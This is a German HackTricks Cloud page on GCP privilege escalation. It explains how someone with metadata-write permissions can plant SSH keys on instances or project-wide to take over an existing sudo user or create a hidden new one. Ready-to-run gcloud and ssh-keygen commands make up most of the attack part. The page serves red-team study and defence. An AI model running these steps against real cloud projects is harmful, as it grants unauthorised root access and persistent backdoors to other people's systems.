 # GCP - Fügen Sie benutzerdefinierte SSH-Metadaten hinzu

## GCP - Fügen Sie benutzerdefinierte SSH-Metadaten hinzu

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

### Ändern der Metadaten <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Die Änderung der Metadaten auf einer Instanz könnte zu **erheblichen Sicherheitsrisiken führen, wenn ein Angreifer die erforderlichen Berechtigungen erlangt**.

#### **Integration von SSH-Schlüsseln in benutzerdefinierte Metadaten**

Auf GCP führen **Linux-Systeme** häufig Skripte aus der [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) aus. Ein kritischer Bestandteil davon ist der [Accounts-Daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), der dazu dient, **regelmäßig** den Metadaten-Endpunkt der Instanz auf **Aktualisierungen der autorisierten SSH-Öffentlichen Schlüssel** zu überprüfen.

Wenn ein Angreifer also benutzerdefinierte Metadaten ändern kann, könnte er den Daemon dazu bringen, einen neuen öffentlichen Schlüssel zu finden, der verarbeitet und **in das lokale System integriert** wird. Der Schlüssel wird in die Datei `~/.ssh/authorized_keys` eines **bestehenden Benutzers hinzugefügt oder möglicherweise wird ein neuer Benutzer mit `sudo`-Rechten erstellt**, abhängig vom Format des Schlüssels. Und der Angreifer wird in der Lage sein, den Host zu kompromittieren.

#### **SSH-Schlüssel zu einem bestehenden privilegierten Benutzer hinzufügen**

1. **Überprüfen Sie die vorhandenen SSH-Schlüssel auf der Instanz:**
*   Führen Sie den Befehl aus, um die Instanz und ihre Metadaten zu beschreiben, um vorhandene SSH-Schlüssel zu finden. Der relevante Abschnitt in der Ausgabe befindet sich unter `metadata`, speziell dem Schlüssel `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Achten Sie auf das Format der SSH-Schlüssel: Der Benutzername steht vor dem Schlüssel, getrennt durch einen Doppelpunkt.
2. **Bereiten Sie eine Textdatei für die SSH-Schlüsselmetadaten vor:**
* Speichern Sie die Details der Benutzernamen und ihrer entsprechenden SSH-Schlüssel in einer Textdatei mit dem Namen `meta.txt`. Dies ist wichtig, um die vorhandenen Schlüssel zu erhalten, während neue hinzugefügt werden.
3. **Generieren Sie einen neuen SSH-Schlüssel für den Zielbenutzer (`alice` in diesem Beispiel):**
*   Verwenden Sie den Befehl `ssh-keygen`, um einen neuen SSH-Schlüssel zu generieren, wobei sichergestellt wird, dass das Kommentarfeld (`-C`) mit dem Zielbenutzernamen übereinstimmt.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Fügen Sie den neuen öffentlichen Schlüssel zu `meta.txt` hinzu, wobei Sie das Format nachahmen, das in den Metadaten der Instanz gefunden wurde.
4. **Aktualisieren Sie die SSH-Schlüsselmetadaten der Instanz:**
*   Wenden Sie die aktualisierten SSH-Schlüsselmetadaten auf die Instanz an, indem Sie den Befehl `gcloud compute instances add-metadata` verwenden.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Greifen Sie mit dem neuen SSH-Schlüssel auf die Instanz zu:**
*   Stellen Sie eine Verbindung zur Instanz mit SSH unter Verwendung des neuen Schlüssels her und greifen Sie auf die Shell im Kontext des Zielbenutzers (`alice` in diesem Beispiel) zu.

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Einen neuen privilegierten Benutzer erstellen und einen SSH-Schlüssel hinzufügen**

Wenn kein interessanter Benutzer gefunden wird, ist es möglich, einen neuen zu erstellen, dem `sudo`-Rechte gewährt werden:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH-Schlüssel auf Projektebene <a href="#sshing-around" id="sshing-around"></a>

Es ist möglich, den Zugriff auf SSH für mehrere virtuelle Maschinen (VMs) in einer Cloud-Umgebung zu erweitern, indem **SSH-Schlüssel auf Projektebene angewendet werden**. Dieser Ansatz ermöglicht den SSH-Zugriff auf jede Instanz innerhalb des Projekts, die nicht ausdrücklich die projektweiten SSH-Schlüssel blockiert hat. Hier ist eine zusammengefasste Anleitung:

1. **SSH-Schlüssel auf Projektebene anwenden:**
*   Verwenden Sie den Befehl `gcloud compute project-info add-metadata`, um SSH-Schlüssel aus `meta.txt` zu den Metadaten des Projekts hinzuzufügen. Diese Aktion stellt sicher, dass die SSH-Schlüssel in allen VMs des Projekts erkannt werden, es sei denn, eine VM hat die Option "Projektweite SSH-Schlüssel blockieren" aktiviert.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH in Instanzen mit projektweiten Schlüsseln:**
* Mit den projektweiten SSH-Schlüsseln können Sie in jede Instanz innerhalb des Projekts SSH-en. Instanzen, die projektweite Schlüssel nicht blockieren, akzeptieren den SSH-Schlüssel und gewähren Zugriff.
* Eine direkte Methode, um in eine Instanz SSH zu erhalten, ist die Verwendung des Befehls `gcloud compute ssh [INSTANCE]`. Dieser Befehl verwendet Ihren aktuellen Benutzernamen und die auf Projektebene festgelegten SSH-Schlüssel, um den Zugriff zu versuchen.

## Referenzen

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

